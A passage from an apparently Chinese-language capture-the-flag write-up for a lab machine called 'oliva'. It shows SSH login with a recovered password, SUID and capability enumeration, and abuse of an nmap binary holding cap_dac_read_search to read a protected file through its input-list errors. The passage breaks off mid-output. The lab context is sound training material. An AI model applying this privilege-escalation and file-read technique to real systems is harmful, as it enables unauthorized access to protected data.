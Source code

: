 # 3. 登录 SSH

使用文件中找到的密码 `Yesthatsmypass!` 登录 SSH。

```bash
┌──(kali㉿kali)-[/mnt]
└─$ ssh oliva@192.168.205.138
oliva@192.168.205.138's password: Yesthatsmypass!
oliva@oliva:~$ id
uid=1000(oliva) gid=1000(oliva) grupos=1000(oliva),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
```

# 4. 提权

查看 `sudo` 配置：

```bash
oliva@oliva:~$ sudo -l
-bash: sudo: orden no encontrada
```

`sudo` 未安装，检查系统权限：

```bash
oliva@oliva:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/chsh
/usr/bin/gpasswd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

使用 `getcap` 查看权限：

```bash
┌──(kali㉿kali)-[~/test]
└─$ /sbin/getcap -r / 2>/dev/null
/usr/bin/nmap cap_dac_read_search=eip
/usr/bin/ping cap_net_raw=ep
```

查看 `/var/www/html/` 目录，使用`nmap`看有没有什么隐藏信息

```bash
┌──(kali㉿kali)-[~/test]
└─$ cd /var/www/html/
└─$ ls -la
total 19548
drwxr-xr-x 2 root     root         4096 jul  4  2023 .
drwxr-xr-x 3 root     root         4096 jul  4  2023 ..
-rw-rw---- 1 www-data www-data      615 jul  4  2023 index.html
-rw-rw---- 1 www-data www-data      163 jul  4  2023 index.php
-rw-rw---- 1 www-data www-data 20000000 jul  4  2023 oliva
oliva@oliva:/var/www/html$ nmap -iL index.php 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-22 03:34 CET
Failed to resolve "Hi".
Failed to resolve "oliva,".
Failed to resolve "Here".
Failed to resolve "the".
Failed to resolve "pass".
Failed to resolve "to".
```
